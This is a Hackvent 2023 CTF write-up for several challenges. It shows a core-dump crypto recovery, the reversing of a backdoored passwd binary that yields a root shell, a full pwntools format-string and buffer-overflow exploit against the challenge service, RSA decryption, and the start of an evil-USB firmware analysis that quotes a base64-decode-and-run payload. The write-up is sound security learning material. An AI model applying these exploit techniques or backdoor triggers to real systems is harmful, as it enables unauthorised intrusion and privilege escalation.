bread@bread-x64:/CTFS/HV23/day14/crypto-dump$ echo -n "42424242424242424242424242424242424242424242424242424242424242424242424242424242424242424242424242424242424242424242424" | xxd -r -p > flag.enc;
bread@bread-x64:/CTFS/HV23/day14/crypto-dump$ gdb -q flagsave
Reading symbols from flagsave...
...
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x3b (';')
RCX: 0x389b5765 
RDX: 0x3 
RSI: 0x8 
RDI: 0x8 
RBP: 0x7fffffffdf88 --> 0x7fffffffe2bd ("/CTFS/HV23/day14/crypto-dump/flagsave")
RSP: 0x7fffffffded0 --> 0x0 
RIP: 0x40113a (<main+250>:	movzx  eax,BYTE PTR [rax])
R8 : 0x3c ('<')
R9 : 0x7ffff7ff7520 --> 0x4237fc3ad91ba2a3 
R10: 0x3c ('<')
R11: 0x40cbb7 --> 0x361b80 
R12: 0x7ffff7ff8030 
R13: 0x7ffff7ff7040 ('B' <repeats 59 times>)
R14: 0x40c0fb --> 0x696e7365612c0072 ('r')
R15: 0x7fffffffdee0 ('A' <repeats 30 times>, "BC")
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40112c <main+236>:	mov    QWORD PTR [rsp+0x8],rax
   0x401131 <main+241>:	call   0x4019b0 <nettle_aes256_set_encrypt_key>
   0x401136 <main+246>:	mov    rax,QWORD PTR [rbp+0x10]
=> 0x40113a <main+250>:	movzx  eax,BYTE PTR [rax]
   0x40113d <main+253>:	cmp    al,0x64
   0x40113f <main+255>:	je     0x401224 <main+484>
   0x401145 <main+261>:	cmp    al,0x65
   0x401147 <main+263>:	jne    0x401264 <main+548>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffded0 --> 0x0 
0008| 0x7fffffffded8 --> 0x7ffff7ff7450 ('A' <repeats 30 times>, "BC\303m[\302\202,\032\203\303m[\302\202,\032\203R0\343\255\023q\242\354R0\343\255\023q\241\356b_s\277\340si<#\0362\376\2412(}`\023\327Rsbu\276!R\226\0232#7\375@\305'\234\240\266N\240\203\250|^\"\232T#\363\253\367t\200ɂʡ\233\024ٓ\270#$$\343\021@\204U_\340\a\375#\276%gw\235\314.\002*L\347\200\340\355|\2249~ķ\035(J\265\263\254\037\352S\253\342\311펅\276pչ\254{\231^,\233t\"\270\242\n\346\017\277\206<\275\324*#W\207"...)
0016| 0x7fffffffdee0 ('A' <repeats 30 times>, "BC")
0024| 0x7fffffffdee8 ('A' <repeats 22 times>, "BC")
0032| 0x7fffffffdef0 ('A' <repeats 14 times>, "BC")
0040| 0x7fffffffdef8 ("AAAAAABC")
0048| 0x7fffffffdf00 --> 0x0 
0056| 0x7fffffffdf08 --> 0x519b3ba284d5008b 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040113a in main ()
```

too easy.
```
R13: 0x7ffff7ff7040 ('B' <repeats 59 times>)
R14: 0x40c0fb --> 0x696e7365612c0072 ('r')
R15: 0x7fffffffdee0 ('A' <repeats 30 times>, "BC")
```
looks like `R13` has the `flag.enc` and `R15` has the `key`.
so, let’s look at the old regdump, from the core dump.
```js
gdb-peda$ hexdump $r13 /3 
0x00007fc80c16f040 : af 71 38 ad 96 08 c9 14 be bd fe 19 be 9f 28 25   .q8...........(%
0x00007fc80c16f050 : bd 98 a7 0f fd 3a 45 58 18 8f 8d 8e f8 bb 15 66   .....:EX.......f
0x00007fc80c16f060 : 73 5f 0b 61 81 35 be b5 0d 80 c9 00 00 00 00 00   s_.a.5..........
...
gdb-peda$ hexdump $r15 /3 
0x00007ffeef3dd670 : 9b af 7d 5c ac 41 41 c8 cb 8c fa 3f d2 70 fc 4b   ..}\.AA....?.p.K
0x00007ffeef3dd680 : ee a0 cd 54 0a 54 25 0a d8 8f 8f 94 cb 40 0f 91   ...T.T%......@..
0x00007ffeef3dd690 : 00 00 00 00 00 00 00 00 e1 00 64 f1 22 b9 94 ea   ..........d."...
```
ok let’s recreate the files as there were for the elves and run the program with all the flags needed 

```sh
bread@bread-x64:/CTFS/HV23/day14/crypto-dump$ echo -n "af7138ad9608c914bebdfe19be9f2825bd98a70ffd3a4558188f8d8ef8bb1566735f0b618135beb50d80c90000000000" | xxd -r -p > flag.enc; 
bread@bread-x64:/CTFS/HV23/day14/crypto-dump$ echo -n "9baf7d5cac4141c8cb8cfa3fd270fc4beea0cd540a54250ad88f8f94cb400f91" | xxd -r -p > key; 
bread@bread-x64:/CTFS/HV23/day14/crypto-dump$ ./flagsave flag.enc d
bread@bread-x64:/CTFS/HV23/day14/crypto-dump$ cat out
HV23{17's_4ll_ri6h7_7h3r3}
����cbread@bread-x64:/CTFS/HV23/day14/crypto-dump$
```

#### FLAG
    HV23{17's_4ll_ri6h7_7h3r3}

## [HV23.15] pREVesc {hard, linux, RE}

### Description
Introduction
We recently changed the root password for santa as he always broke our system. However, I think he has hidden some backdoor in there. Please help us find it to save christmas!

Login to the SSH server with the following credentials:

username: `challenge`
password: `challenge``
Start the Docker, login via SSH and get the flag!

### Solution

A privESC challenge how fun, but also reverse engineering category and the description says "changed the root password for santa.... hidden backdoor...". this should have been enough for me to realise I don’t need to run my 2 CTF go to privESC tools `pspy64` and `linpeas.sh` but guess what? yep, I did it anyway =)

after that I did a cheat known to CTFers where you search for recently updated files and I noticed `/usr/bin/passwd` D'OH! now it all makes sense.
So, I scp the `passwd` binary off the host and opened in ghidra.
first thing I did was look for strings where I found 
```js
                        s_SALAMI_0011362d                               XREF[1]:     main:0010579f(*)  
0011362d 53 41 4c        ds         "SALAMI"
            41 4d 49 00
                        s_Why_u_givin'_me_no_salami?!_00113634          XREF[1]:     main:00106986(*)  
00113634 57 68 79        ds         "Why u givin' me no salami?!"
            20 75 20 
            67 69 76 
                        s_Enjoy_your_salami!_00113650                   XREF[1]:     main:0010587d(*)  
00113650 45 6e 6a        ds         "Enjoy your salami!"
            6f 79 20 
            79 6f 75 
```

so, I followed the first one back into main `XREF[1]:     main:0010579f` and could see something interesting
```c
switchD_001055b7_caseD_45:
  setuid(0);
  setgid(0);
  pcVar8 = getenv("SALAMI");
  if (pcVar8 == (char *)0x0) {
    puts("Why u givin\' me no salami?!");
    exit(1);
  }
  lVar14 = 0;
  local_1e8 = 0x707575;
  local_1ff = 0x41a041d;
  uStack_1fb = 0xe1f;
  local_1f8 = 0x6576656e;
  uStack_1f4 = 0x6e6f6772;
  uStack_1f0 = 0x6967616e;
  uStack_1ec = 0x6f796576;
  do {
    local_205[lVar14] = *(byte *)((long)&local_1ff + lVar14) ^ *(byte *)((long)&local_1f8 + lVar14);
    lVar14 = lVar14 + 1;
  } while (lVar14 != 6);
  uVar9 = 0;
  local_1d8 = 0x1118151b;
  uStack_1d4 = 0x4e5c531e;
  uStack_1d0 = 0x471a161b;
  uStack_1cc = 0x15190e0a;
  local_1c8 = 0x4f160b18;
  uStack_1c4 = 0x46000e0f;
  uStack_1c0 = 0x2180004;
  uStack_1bc = 0x5c055605;
  uStack_1b8 = 0x1a3008;
  uStack_1b5 = 0x3b58045d;
  uStack_1b1 = 0x220a3506;
  do {
    *(byte *)((long)local_108 + uVar9) =
         local_205[(int)uVar9 + (int)((uVar9 & 0xffffffff) / 6) * -6] ^
         *(byte *)((long)&local_1d8 + uVar9);
    uVar9 = uVar9 + 1;
  } while (uVar9 != 0x2b);
  iVar5 = strcmp(pcVar8,(char *)local_108);
  if (iVar5 == 0) {
    puts("Enjoy your salami!");
    system("/bin/bash -p");
switchD_001055b7_caseD_68:
    usage(0);
  }
```

I like to clean code up before going further so I played around with some of the 
```c
switchD_001055b7_caseD_45:
  setuid(0);
  setgid(0);
  SALAMI_ENV = getenv("SALAMI");
  if (SALAMI_ENV == (char *)0x0) {
    puts("Why u givin\' me no salami?!");
    exit(1);
  }
  i = 0;
  random[0] = '\x1d';
  random[1] = '\x04';
  random[2] = '\x1a';
  random[3] = '\x04';
  random[4] = '\x1f';
  random[5] = '\x0e';
  rickroll[0] = 'n';
  rickroll[1] = 'e';
  rickroll[2] = 'v';
  rickroll[3] = 'e';
  rickroll[4] = 'r';
  rickroll[5] = 'g';
  rickroll[6] = 'o';
  rickroll[7] = 'n';
  rickroll[8] = 'n';
  rickroll[9] = 'a';
  rickroll[10] = 'g';
  rickroll[11] = 'i';
  rickroll[12] = 'v';
  rickroll[13] = 'e';
  rickroll[14] = 'y';
  rickroll[15] = 'o';
  rickroll[16] = 'u';
  rickroll[17] = 'u';
  rickroll[18] = 'p';
  rickroll[19] = '\0';
  do {
    XOR1[i] = random[i] ^ rickroll[i];
    i = i + 1;
  } while (i != 6);
  j = 0;
  XOR2[0] = '\x1b';
  XOR2[1] = '\x15';
  XOR2[2] = '\x18';
  XOR2[3] = '\x11';
  XOR2[4] = '\x1e';
  XOR2[5] = 'S';
  XOR2[6] = '\\';
  XOR2[7] = 'N';
  XOR2[8] = '\x1b';
  XOR2[9] = '\x16';
  XOR2[10] = '\x1a';
  XOR2[11] = 'G';
  XOR2[12] = '\n';
  XOR2[13] = '\x0e';
  XOR2[14] = '\x19';
  XOR2[15] = '\x15';
  XOR2[16] = '\x18';
  XOR2[17] = '\v';
  XOR2[18] = '\x16';
  XOR2[19] = 'O';
  XOR2[20] = '\x0f';
  XOR2[21] = '\x0e';
  XOR2[22] = '\0';
  XOR2[23] = 'F';
  XOR2[24] = '\x04';
  XOR2[25] = '\0';
  XOR2[26] = '\x18';
  XOR2[27] = '\x02';
  XOR2[28] = '\x05';
  XOR2[29] = 'V';
  XOR2[30] = '\x05';
  XOR2[31] = '\\';
  XOR2[32] = '\b';
  XOR2[33] = '0';
  XOR2[34] = '\x1a';
  XOR2[35] = ']';
  XOR2[36] = '\x04';
  XOR2[37] = 'X';
  XOR2[38] = ';';
  XOR2[39] = '\x06';
  XOR2[40] = '5';
  XOR2[41] = '\n';
  XOR2[42] = '\"';
  do {
    final[j] = XOR1[j % 6] ^ XOR2[j];
    j = j + 1;
  } while (j != 43);
  env_cmp = strcmp(SALAMI_ENV,(char *)final);
  if (env_cmp == 0) {
    puts("Enjoy your salami!");
    system("/bin/bash -p");
switchD_001055b7_caseD_68:
    usage(0);
  }
```

so, I put that into an online complier and added at the end 
```c
for (int i = 0; final[i] != '\0'; ++i) {
    printf("%c", final[i]);
}
```
which returned `https://www.youtube.com/watch?v=dQw4w9WgXcQ`
cool that’s my `password` the 400th rickroll =/

the last thing I need to do was get to that code which required meeting this switch case value `switchD_001055b7_caseD_45:`
which is here
```c
  switch(iVar5) {
  case 0x45:
    goto switchD_001055b7_caseD_45;
  default:
    usage(6);
    goto LAB_00105e07;
    ....    
```
and `0x45 == E` and after following one of the other cases `goto`'s I recognised it’s the flag switch value. so, to trigger Santa’s backdoor you need:
- `SALAMI=https://www.youtube.com/watch?v=dQw4w9WgXcQ` as an ENV var.
- `-E` as your `passwd` arg

```sh
challenge@2e607809-71a1-4f73-ab9e-d08fdc8eb64f:~$ export SALAMI=https://www.youtube.com/watch?v=dQw4w9WgXcQ
challenge@2e607809-71a1-4f73-ab9e-d08fdc8eb64f:~$ passwd -E
Enjoy your salami!
root@2e607809-71a1-4f73-ab9e-d08fdc8eb64f:/root# cat /root/flag.txt 
HV23{3v1l_p455wd}
root@2e607809-71a1-4f73-ab9e-d08fdc8eb64f:/root# 
```

#### FLAG
    HV23{3v1l_p455wd}

## [HV23.16] Santa's Gift Factory {hard, exploitation}

### Description
Did you know that Santa has its own factory for making gifts? Maybe you can exploit it to get your own special gift!

The socat command in the Dockerfile has the argument raw, which should not be there.

Please note that the flag gets replaced once you interact with the service. The reason behind this is to avoid Remote Code Execution exploits from allowing you to get the flag (basically to force a specific way of exploiting). If you have a working exploit, restart the Docker to get a chance to get the flag.

If your exploit works only against a local Docker, it is recommended to keep trying a few times against the remote Docker if it does not work instantly.

Start the service, exploit it and get the flag!

Flag format: HV23{}

### Solution

Ooo, a binary let’s have a look in `ghidra`, as I normally do.

`main` references `task`, this is a count challenge, which if you get correct takes you to `tellflag`. 

this function `fread`'s 5 chars of the flag, then `system("./magic.sh");` is called which we can assume overwrites the flag file since the description mentions it intended to be solved a specific way and only exists on the first run.

We then have a `getstr` call for user input, and then later a `gets` and a direct `printf`. 

I spent a while working on the idea that this is a race condition and that the `magic.sh` is just really slow and you can re-open the file before the overwrite.
but this was wrong. and I spent a little longer looking at ghidra and noticed `gets` is custom because it appeared in the functions list on the left in ghidra. I also had given up on this challenge and had to come back to it much later in the event.
anyway.

here is the function.
```c
char * gets(char *__s) {
  char *in_RSI;
  size_t local_20;
  char *local_18;
  __ssize_t local_10;
  
  printf("%s\n > %s",__s,&DAT_0010200b);
  local_18 = (char *)0x0;
  local_20 = 0;
  local_10 = getline(&local_18,&local_20,stdin);
  memcpy(in_RSI,local_18,local_10 - 1);
  return in_RSI;
}
```

it doesn’t length check correctly giving us a `buffer overflow` and we have a `format string vulnerability`. 
it’s also super handy because unlike `getstr` it doesn’t null terminate, which means our `buffer overflow` can be used in such a way as to only overwrite the LSB of RIP.

in my head this made me think the flag is on the heap and we can get to it after we leak some addresses and maybe loop the tellflag function with format string vulnerability.

so first off, I needed to calculate the buffer overflow offset which is easy `undefined1[136]   Stack[-0xa8]   buff_overflow == 0xa8 == 168` 

```c++
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined tellflag()
             undefined         AL:1           <RETURN>                                XREF[1]:     00101529(W)  
             undefined8        RAX:8          fd                                      XREF[1]:     00101529(W)  
             undefined8        Stack[-0x10]:8 filename                                XREF[4]:     001014f4(W), 
                                                                                                   001014f8(R), 
                                                                                                   0010150e(R), 
                                                                                                   0010153e(R)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[2]:     0010152e(W), 
                                                                                                   00101531(R)  
             undefined8        Stack[-0x20]:8 username                                XREF[1]:     0010157b(W)  
             undefined1[136]   Stack[-0xa8]   buff_overflow                           XREF[2]:     0010159d(*), 
                                                                                                   001015ca(*)  
             undefined6        Stack[-0xae]:6 part_flag                               XREF[2]:     00101512(*), 
                                                                                                   0010157f(*)  
                             tellflag                                        XREF[4]:     Entry Point(*), task:001017a0(c), 
                                                                                          0010257c, 001026a8(*)  
        001014cc f3 0f 1e fa     ENDBR64
```
but in reviewing this I remembered and finally noticed something, `format string vulns` can print strings from a pointer `%{?}$s` (where `{?}` is the stack offset) and our username is a `pointer` on the stack.
so, I just have to find the `username` pointer on the stack and then I can use the buffer overflow to control what I want to look at.

so, I’ll share the code I have at this point
```py
from pwn import *

context.log_level='warn'

def main(i):
    r = process('./vuln')

    # Yes
    r.sendlineafter(b"?", b"y")

    # Pass count check
    a = r.recvuntil(b'Santa: How many')
    r.sendlineafter(b">", str(a.count(b"red")).encode('utf-8'))
    r.sendlineafter(b">", str(a.count(b"yellow")).encode('utf-8'))
    r.sendlineafter(b">", str(a.count(b"blue")).encode('utf-8'))

    # Setup canary
    r.sendlineafter(b"name?", b"bread")

    # Finding username pointer to heap
    payload = f"%{i}$s"
    r.sendlineafter(b"else?", payload)
    print(r.recvall())

for i in range(100):
    main(i)
```
ok sick looks like 25
```sh

bread@bread-x64:/HV23/day16/santas-gift-factory$ python3 solveday16.py 
[+] potential username pointer at: 25 | b'\n > \x1b[?25h\nSanta: You want me to help you with bread?\nSanta: I will see what I can do...\n'
[+] potential username pointer at: 76 | b'\n > \x1b[?25h\nSanta: You want me to help you with SESSION_MANAGER=local/bread-x64:@/tmp/.ICE-unix/2429,unix/bread-x64:/tmp/.ICE-unix/2429?\nSanta: I will see what I can do...\n'
[+] potential username pointer at: 90 | b'\n > \x1b[?25h\nSanta: You want me to help you with LOGNAME=bread?\nSanta: I will see what I can do...\n'
[+] potential username pointer at: 95 | b'\n > \x1b[?25h\nSanta: You want me to help you with HOME=/home/bread?\nSanta: I will see what I can do...\n'
[+] potential username pointer at: 96 | b'\n > \x1b[?25h\nSanta: You want me to help you with USERNAME=bread?\nSanta: I will see what I can do...\n'
```

ok and now let’s just scan some of the HEAP I just update the code a little

```py
    # Finding username in mem
    pad = "A"*131
    payload = f"%25$s{pad}".encode('utf-8')+p8(i)
    r.sendlineafter(b"else?", payload)
    r.recvuntil(b"with ")
    a = r.recvuntil(b"Santa")
    print(f"{i}: {a[:-5]}")
    r.recvall()
```


```
128: b'breadAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x80d\x11~\x85U?\n'
129: b'readAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x81\xc4fr\xeeU?\n'
130: b'eadAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x82\xc4\xe2\xd8\xacU?\n'
131: b'adAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x83T\xad7\x11V?\n'
132: b'dAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x84T\x14\xdc\xf9U?\n'
133: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x85\x14\xf0\xd8\xa1U?\n'
134: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86\xb4\\J\xbcU?\n'
135: b'ead_was_here}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x87\x94\x8d@\x15V?\n'
136: b'ad_was_here}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x88\x94MN\xc0U?\n'
137: b'd_was_here}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x89\x14\xa9\xf3\xcfU?\n'
138: b'_was_here}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8a\x84*\xe8\x8bU?\n'
139: b'was_here}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8b\xd4\x90}yU?\n'
140: b'as_here}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8c\x84\xffz\x83U?\n'
141: b's_here}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8d\xb4jY\xafU?\n'
142: b'_here}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8e\xf4ir\x85U?\n'
143: b'here}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8f\xa4^\xd6\x87U?\n'
144: b'ere}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90t?\n'
145: b're}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x91\xf4\xd3X:V?\n'
146: b'e}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x92\xa4\xcbI\x8bU?\n'
147: b'}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x93d\xd8\xff\xfaU?\n'
```

boom `135: b'ead_was_here}`

it would appear that the `username` you select overwrites some of the `flag` on the heap which makes sense, but I wanted to confirm this.
So, I got side tracked and read some GLIBC source code basically it looks like it uses the default buffer size [`BUFSIZ`](https://elixir.bootlin.com/glibc/glibc-2.2.5/source/stdio/stdio.h#L246) because `fread` calls `__fillbf` when there is no buffer.

```c

/* Read NMEMB chunks of SIZE bytes each from STREAM into P.  */
size_t
fread (p, size, nmemb, stream)
     void *p;
     size_t size;
     size_t nmemb;
     register FILE *stream;
{
  register char *ptr = (char *) p;
  register size_t to_read = size * nmemb;
  size_t bytes = to_read;
  ...

if (!stream->__seen || stream->__buffer == NULL || stream->__pushed_back)
    {
      /* This stream has never been seen before, or it has a character
	 pushed back.  Call __fillbf to deal with those cases.  Life will
	 be simpler after this call.  */
      int c = __fillbf (stream);
      if (c == EOF)
	return 0;
      *ptr++ = c;
      if (--to_read == 0)
	return 1;
    }
```

and `__fillbf` calls `init_stream` 
```c
/* Fill the buffer for FP and return the first character read.
   This is the function used by getc.  */
int
__fillbf (fp)
     register FILE *fp;
{
  register int c;
  
  ...

  /* Make sure the stream is initialized (has functions and buffering). */
  init_stream (fp);

...

}

```

which sets it to the default `BUFSIZ`
```c
init_stream (register FILE *fp) {
  __stdio_check_funcs (fp);

  if (fp->__buffer == NULL && !fp->__userbuf)
    {
      int save;

      if (fp->__bufsize == 0)
	fp->__bufsize = BUFSIZ;
...
```

anyway, just seems like that that’s the case but you can also just check it with `strace`
```sh
14:56:09.244425 openat(AT_FDCWD</CTFS/HV23/day16/santas-gift-factory>, "flag", O_RDONLY) = 3</CTFS/HV23/day16/santas-gift-factory/flag>
14:56:09.246284 newfstatat(3</CTFS/HV23/day16/santas-gift-factory/flag>, "", {st_dev=makedev(0, 0x37), st_ino=1238, st_mode=S_IFREG|0777, st_nlink=1, st_uid=0, st_gid=0, st_blksize=1024, st_blocks=1, st_size=20, st_atime=1705892028 /* 2024-01-22T13:53:48+1100 */, st_atime_nsec=0, st_mtime=1705892028 /* 2024-01-22T13:53:48+1100 */, st_mtime_nsec=0, st_ctime=1705892028 /* 2024-01-22T13:53:48+1100 */, st_ctime_nsec=0}, AT_EMPTY_PATH) = 0
14:56:09.246420 read(3</CTFS/HV23/day16/santas-gift-factory/flag>, "HV23{bread_was_here}", 1024) = 20
14:56:09.246730 close(3</CTFS/HV23/day16/santas-gift-factory/flag>) = 0
``` 

but in any case, the whole flag other than what we overwrite is actually read in the heap.
so just update my code


```py
from pwn import *

context.log_level='warn'
context.arch = 'amd64'

def main():
    #r = process('./vuln')
    r = remote('152.96.15.2',1337)
    # Yes
    r.sendlineafter(b"?", b"y")

    # Pass count check
    a = r.recvuntil(b'Santa: How many')
    r.sendlineafter(b">", str(a.count(b"red")).encode('utf-8'))
    r.sendlineafter(b">", str(a.count(b"yellow")).encode('utf-8'))
    r.sendlineafter(b">", str(a.count(b"blue")).encode('utf-8'))

    # Setup canary
    r.sendlineafter(b"name?", b"bread")

    # Finding username in mem
    pad = "A"*131
    payload = f"%25$s{pad}".encode('utf-8')+p8(135)
    r.sendlineafter(b"else?", payload)
    r.recvuntil(b"with ")
    a = r.recvuntil(b"Santa")
    
    # Print flag
    print(f"{a[:-5]}")

    r.recvall()

main()
```

```sh
bread@bread-x64:/CTFS/HV23/day16/santas-gift-factory$ python3 solveday16.py 
b'ses_are_red_violets_are_blue_the_bufferoverfl0w_is_0n_line_32}\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x87d0x7fffca1325a0\xabU?\n'
```
#### FLAG
    HV23{roses_are_red_violets_are_blue_the_bufferoverfl0w_is_0n_line_32}

## [HV23.17] Lost Key {hard, forensics, crypto}

### Description
After losing another important key, the administrator sent me a picture of a key as a replacement. But what should I do with it?
0c56b3c2-b017-4c6f-b6a8-a565df124012
Use the key in the description to decrypt the encrypted image from the Resources.
### Solution

well first thing I can think of given we just have a single image is trying [aperisolve](https://www.aperisolve.com/6fa5b899d316c8bcb4ee9324c6ec2108)
which gives us `meta-Comment .. text: "Key Info: 0x10001"``
cool so we know this is RSA now.

I got stuck here and had to get a nudge which was `zoom in` which is where you can see the image is split in two.
from here knowing that the image was actually split in too I guessed that its P and Q, given the size of the image and that its only 2 values.

I then googled `RSA get d from p, q, e` and grabbed the basic code since I forget it all the time, but I know it’s to do with inverse and phi.

Here’s my final code
```py
from PIL import Image
from Crypto.Util.number import bytes_to_long, long_to_bytes, inverse

def main():
    # Open encrypted file convert to bytes
    ct = bytes_to_long(open('flag.enc', 'rb').read())

    # Open image gets p and q
    image = Image.open('0c56b3c2-b017-4c6f-b6a8-a565df124012.png')
    image_bytes = image.tobytes()
    length = len(image_bytes)
    p = bytes_to_long(image_bytes[:length//2])
    q = bytes_to_long(image_bytes[length//2:])
 
    # Do the fun RSA calcs
    n = p * q
    e = 0x10001
    phi = (p - 1) * (q - 1)
    d = inverse(e, phi)

    # Decrypt and write
    pt = pow(ct, d, n)
    open('flag.png', 'wb').write(long_to_bytes(pt))

if __name__ == "__main__":
    main()
```

#### FLAG
    HV23{Thanks_for_finding_my_key}

## [HV23.18] Evil USB {hard, RE}

### Description
An engineer at SantaSecCorp has found a suspicious device stuck in the USB port of his computer. It doesn't seem to work anymore, but we managed to dump the firmware for you. Please help us find out what the device did to their computer.

Download the attachment and find the flag!

sha256sum of the attachment: 0f7ce9bcff9eb4d1f06c14603a8ec1d72f65478169a6a6a0367d49fe774a55cd

### Solution

Hmmmm ok so I’m not super familiar with Arduino so I kind of used ChatGPT as a sound board for this one.
first off let’s look at the file with some basics and hope we get some info.
```sh
bread@bread-x64:/CTFS/HV23/day18/evil-usb (1)$ file firmware.elf
firmware.elf: ELF 32-bit LSB executable, Atmel AVR 8-bit, version 1 (SYSV), statically linked, with debug_info, not stripped
bread@bread-x64:/CTFS/HV23/day18/evil-usb (1)$ strings firmware.elf
0687
 !"#$%&
@A#6
Arduino LLC
Arduino Leonardo
6-78'
...
Scheduled activation in 
 hours
Running payload... Never gonna give you up btw
base64 -d data > data_decoded
bash data_decoded
GCC: (GNU) 7.3.0
atmega32u4
...
/home/jenkins/workspace/avr-gcc-staging/label/debian7-x86_64/gcc-build/avr/avr5/libgcc
GNU AS 2.26
../../../../gcc/libgcc/config/avr/lib1funcs.S
/home/jenkins/workspace/avr-gcc-staging/label/debian7-x86_64/gcc-build/avr/avr5/libgcc
..
avr-libc 2.0.0
```

ok so I opened the `elf` file in ghidra set it to `arv8` because when I googled `atmega32u4` it comes back as 8-bit.

I looked for the function `setup()` because this is called [first](https://forum.arduino.cc/t/help-understanding-the-excution-flow-withing-a-sketch/331851/7).

reading the decompiled code looks like a pain so I did my normal steps which is to use strings to find interesting sections of code. this failed me because the strings in code aren’t referenced or ghidra didn’t pick it up properly.
so, I moved to the next best thing, looking at interesting function calls.

asking ChatGPT, it shows the code (`setup()`) does 2 interesting things 
```gpt
Serial Communication: The program communicates with an external device (probably a computer) through serial communication using the Serial object. It sends data stored in memory to the serial port.

